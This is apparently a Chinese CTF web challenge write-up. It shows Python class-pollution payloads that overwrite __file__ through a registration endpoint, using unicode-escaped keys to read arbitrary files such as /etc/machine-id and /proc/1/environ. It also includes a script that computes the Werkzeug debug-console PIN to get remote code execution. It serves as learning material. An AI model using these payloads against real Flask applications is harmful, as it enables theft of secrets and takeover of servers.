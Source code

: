 tags:: [[CTFWEB/Python/Python的原型链污染]], [[CTFWEB/Flask/Debug模式RCE]]

- > 复现
- # 思路
	- 使用[类型污染]([[CTFWEB/Python/Python的原型链污染]])污染`__file__`实现任意读取文件
	- 对`/console`路径打[[CTFWEB/Flask/Debug模式RCE]]
- # 对象类型污染 -> 任意文件读取
	- 污染`__globals__`下的`__file__`即可
	- ```python
	  def read_file(pathname):
	  
	      payload = {
	          "username": "123",
	          "password": "123",
	          "__class__": {
	              "__init__": {
	                  "__globals__": {
	                      "__file__": pathname
	                  }
	              }
	          }
	      }
	  
	      payload = json.dumps(payload)
	      payload = payload.replace("__class__", enc_dec.full_urlencode("__class__", head = "\\u00"))
	      payload = payload.replace("__init__", enc_dec.full_urlencode("__init__", head = "\\u00"))
	  
	      r = base_post(url + "register", data = payload)
	      r = base_get(url)
	      return r.text
	  
	  ```
- # 打Flask的debug模式RCE
	- 这题不知道为什么可以通过`/console`访问终端
	- 读文件算pin
		- ```python
		  
		  import hashlib
		  from itertools import chain
		  
		  
		  eth0 = read_file("/sys/class/net/eth0/address")
		  eth0 = str(int("".join(eth0.split(":")), 16))
		  machine_id = read_file("/etc/machine-id").strip()
		  cgp = read_file("/proc/self/cgroup").rpartition("/")[2].strip()
		  
		  rv, num = None, None
		  
		  probably_public_bits = [
		      'root'# 用户名
		      'flask.app',# modname
		      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
		      "/usr/local/lib/python3.10/site-packages/flask/app.py" # getattr(mod, '__file__', None),
		  ]
		  
		  private_bits = [
		      str(eth0),# str(uuid.getnode()),  /sys/class/net/ens33/address
		      machine_id + cgp
		  ]
		  h = hashlib.sha1()
		  for bit in chain(probably_public_bits, private_bits):
		      if not bit:
		          continue
		      if isinstance(bit, str):
		          bit = bit.encode("utf-8")
		      h.update(bit)
		  h.update(b"cookiesalt")
		  
		  cookie_name = f"__wzd{h.hexdigest()[:20]}"
		  
		  if num is None:
		      h.update(b"pinsalt")
		      num = f"{int(h.hexdigest(), 16):09d}"[:9]
		  
		  if rv is None:
		      for group_size in 5, 4, 3:
		          if len(num) % group_size == 0:
		              rv = "-".join(
		                  num[x : x + group_size].rjust(group_size, "0")
		                  for x in range(0, len(num), group_size)
		              )
		              break
		      else:
		          rv = num
		  
		  print(rv)
		  
		  ```
- # 非预期思路
	- 直接读`/proc/1/environ`
		- ```python
		  def read_file(pathname):
		  
		      payload = {
		          "username": "123",
		          "password": "123",
		          "__class__": {
		              "__init__": {
		                  "__globals__": {
		                      "__file__": pathname
		                  }
		              }
		          }
		      }
		  
		      payload = json.dumps(payload)
		      payload = payload.replace("__class__", enc_dec.full_urlencode("__class__", head = "\\u00"))
		      payload = payload.replace("__init__", enc_dec.full_urlencode("__init__", head = "\\u00"))
		  
		      r = base_post(url + "register", data = payload)
		      r = base_get(url)
		      return r.text
		  print(read_file("/proc/1/environ"))
		  
		  ```